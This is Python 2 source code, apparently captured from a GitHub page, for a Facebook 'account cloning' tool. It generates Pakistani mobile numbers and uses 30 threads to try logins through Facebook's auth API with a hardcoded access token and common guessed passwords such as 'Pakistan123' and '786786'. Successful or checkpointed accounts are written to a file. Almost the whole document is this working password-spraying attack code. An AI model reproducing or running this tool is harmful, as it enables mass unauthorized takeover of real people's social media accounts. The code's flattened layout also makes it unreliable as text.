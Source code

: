 '\x1b[1;91m[6] GROUP CLONING-Soon' time.sleep(0.10) print '\x1b[1;94m[0] back' time.sleep(0.05) action() def action(): peak = raw_input('\n\033[1;97mCHOOSE:\033[1;97m') if peak =='': print '[!] Fill In Correctly' action() elif peak =="1": os.system("clear") print logo2 print "Enter any Pakistan Mobile code Number"+'\n' print 'Enter any code 00 to 49' print '[Telenor][Jazz][Warid][Zong][Ufone]' try: c = raw_input("\033[1;97mCHOOSE : ") k="03" idlist = ('.txt') for line in open(idlist,"r").readlines(): id.append(line.strip()) except IOError: print ("[!] File Not Found") raw_input("\n[ Back ]") blackmafiax() elif peak =='0': login() else: print '[!] Fill In Correctly' action() print 50* '\033[1;94m-' xxx = str(len(id)) jalan ('\033[1;91m Total ids number: '+xxx) jalan ('\033[1;92mCode you choose: '+c) jalan ("\033[1;93mYour CracKinG will be started...") jalan ("\033[1;94mTo Stop Process Press Ctrl+z") print 50* '\033[1;97m-' def main(arg): global cpb,oks user = arg try: os.mkdir('save') except OSError: pass try: pass1 = user data = br.open('https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=1&email=' +k+c+user+ '&locale=en_US&password=' + pass1 + '&sdk=ios&generate_session_cookies=1&sig=3f555f98fb61fcd7aa0c44f58f522efm') q = json.load(data) if 'access_token' in q: print '\x1b[1;93m(Pathani-CP) ' + k + c + user + ' | ' + pass1 okb = open('save/cloned.txt', 'a') okb.write(k+c+user+pass1+'\n') okb.close() oks.append(c+user+pass1) else: if 'www.facebook.com' in q['error_msg']: print '\033[1;92m(Pathani-Okk) ' + k + c + user + ' | ' + pass1 cps = open('save/cloned.txt', 'a') cps.write(k+c+user+pass1+'\n') cps.close() cpb.append(c+user+pass1) else: pass2 = k + c + user data = br.open('https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=1&email=' +k+c+user+ '&locale=en_US&password=' + pass2 + '&sdk=ios&generate_session_cookies=1&sig=3f555f98fb61fcd7aa0c44f58f522efm') q = json.load(data) if 'access_token' in q: print '\x1b[1;93m(Pathani-CP) ' + k + c + user + ' | ' + pass2 okb = open('save/cloned.txt', 'a') okb.write(k+c+user+pass2+'\n') okb.close() oks.append(c+user+pass2) else: if 'www.facebook.com' in q['error_msg']: print '\033[1;92m(Pathani-Okk) ' + k + c + user + ' | ' + pass2 cps = open('save/cloned.txt', 'a') cps.write(k+c+user+pass2+'\n') cps.close() cpb.append(c+user+pass2) else: pass3="Pakistan123" data = br.open('https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=1&email=' +k+c+user+ '&locale=en_US&password=' + pass3 + '&sdk=ios&generate_session_cookies=1&sig=3f555f98fb61fcd7aa0c44f58f522efm') q = json.load(data) if 'access_token' in q: print '\x1b[1;92m(Pathani-Okk) ' + k + c + user + ' | ' + pass3 okb = open('save/cloned.txt', 'a') okb.write(k+c+user+pass3+'\n') okb.close() oks.append(c+user+pass3) else: if 'www.facebook.com' in q['error_msg']: print '\033[1;92m(Pathani-Okk) ' + k + c + user + ' | ' + pass3 cps = open('save/cloned.txt', 'a') cps.write(k+c+user+pass3+'\n') cps.close() cpb.append(c+user+pass3) else: pass4="234567" data = br.open('https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=1&email=' +k+c+user+ '&locale=en_US&password=' + pass4 + '&sdk=ios&generate_session_cookies=1&sig=3f555f98fb61fcd7aa0c44f58f522efm') q = json.load(data) if 'access_token' in q: print '\x1b[1;93m(Pathani-CP) ' + k + c + user + ' | ' + pass4 okb = open('save/cloned.txt', 'a') okb.write(k+c+user+pass4+'\n') okb.close() oks.append(c+user+pass4) else: if 'www.facebook.com' in q['error_msg']: print '\033[1;92m(PathaniOkk)) ' + k + c + user + ' | ' + pass4 cps = open('save/cloned.txt', 'a') cps.write(k+c+user+pass4+'\n') cps.close() cpb.append(c+user+pass4) else: pass5="786786" data = br.open('https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=1&email=' +k+c+user+ '&locale=en_US&password=' + pass5 + '&sdk=ios&generate_session_cookies=1&sig=3f555f98fb61fcd7aa0c44f58f522efm') q = json.load(data) if 'access_token' in q: print '\x1b[1;93m(Pathani-CP) ' + k + c + user + ' | ' + pass5 okb = open('save/cloned.txt', 'a') okb.write(k+c+user+pass5+'\n') okb.close() oks.append(c+user+pass5) else: if 'www.facebook.com' in q['error_msg']: print '\033[1;92m(Pathani-Okk) ' + k + c + user + ' | ' + pass5 cps = open('save/cloned.txt', 'a') cps.write(k+c+user+pass5+'\n') cps.close() cpb.append(c+user+pass5) except: pass p = ThreadPool(30) p.map(main, id) print 50* '\033[1;91m-' print 'Process Has Been Completed ...' print 'Total Online/Offline : '+str(len(oks))+'/'+str(len(cpb)) print('Cloned Accounts Has Been Saved : save/cloned.txt') jalan("Note : Your Offline account Will Open after 7 to 10 days") print '' print """ ███ ──────────███║║║║║║║███ ─────────█║║║║║║║║║║║║║█ ────────█║║║║███████║║║║█ ───────█║║║║██─────██║║║║█ ──────█║║║║██───────██║║║║█ ─────█║║║║██─────────██║║║║█ ─────█║║║██───────────██║║║█ ─────█║║║█─────────────█║║║█ ─────█║║║█─────────────█║║║█ ─────█║║║█─────────────█║║║█ ─────█║║║█─────────────█║║║█ ────███████───────────███████ ───██║║║║║║██────────██║║║║║██ ──██║║║║║║║║██──────██║║║║║║║██ ─██║║║║║║║║║║██───██║║║║║║║║║║██ ██║║║║║║║║║║║║█████║║║║║║║║║║║║██ █║║║║║║║║║║║║║║║║║║║║║║║║║║║║║║║█ █║║║║║║║║║║║║║█████║║║║║║║║║║║║║█ █║║║║║║║║║║║║█░░░░░█║║║║║║║║║║║║█ █║║║║║║║║║║║║█░░░░░█║║║║║║║║║║║║█ █║║║║║║║║║║║║█░░░░░█║║║║║║║║║║║║█ ██║║║║║║║║║║║█░░░░░█║║║║║║║║║║║██ ██║║║║║║║║║║║║█░░░█║║║║║║║║║║║║██ ─██║║║║║║║║║║║█░░░█║║║║║║║║║║║██ ──██║║║║║║║║║║█░░░█║║║║║║║║║║██ ───██║║║║║║║║║█░░░█║║║║║║║║║██ ────██║║║║║║║║█████║║║║║║║║██ ─────██║║║║║║║║███║║║║║║║║██ ──────██║║║║║║║║║║║║║║║║║██ ───────██║║║║║║║║║║║║║║║██